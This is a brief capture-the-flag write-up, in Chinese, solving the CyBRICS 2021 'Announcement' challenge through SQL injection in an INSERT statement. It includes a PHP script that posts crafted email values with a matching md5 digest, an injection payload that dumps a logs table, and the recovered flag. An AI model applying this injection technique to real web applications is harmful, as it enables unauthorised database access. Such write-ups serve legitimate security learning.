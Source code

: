 # Announcement

有個類似 email 訂閱的功能

觀察一下送出的請求，會看到帶兩個參數，一個是 email，一個是 digest

其中 digest = md5(email)

email 戳了一下，會看到很明顯的 SQL Injection:

`Something went wrong during database insert: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''a@b.ca'', NOW())' at line 1`

但由於是Insert的SQL Injection，所以還是有些地方要小注意

最後exploit.php:

```
<?php

$s = $argv[1];

$ch = curl_init();
curl_setopt($ch, CURLOPT_URL,"http://announcement-cybrics2021.ctf.su/");
curl_setopt($ch, CURLOPT_POST, 1);
curl_setopt($ch, CURLOPT_POSTFIELDS,
            "digest=".md5($s)."&email=".urlencode($s));
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);

$server_output = curl_exec($ch);

curl_close ($ch);

echo $server_output;
```

`php sql.php "aaax',(select group_concat(concat(log)) from logs))-- "`  (撈表名/欄位名過程略)

=>

`cybrics{1N53r7_0ld_900d_5ql}`
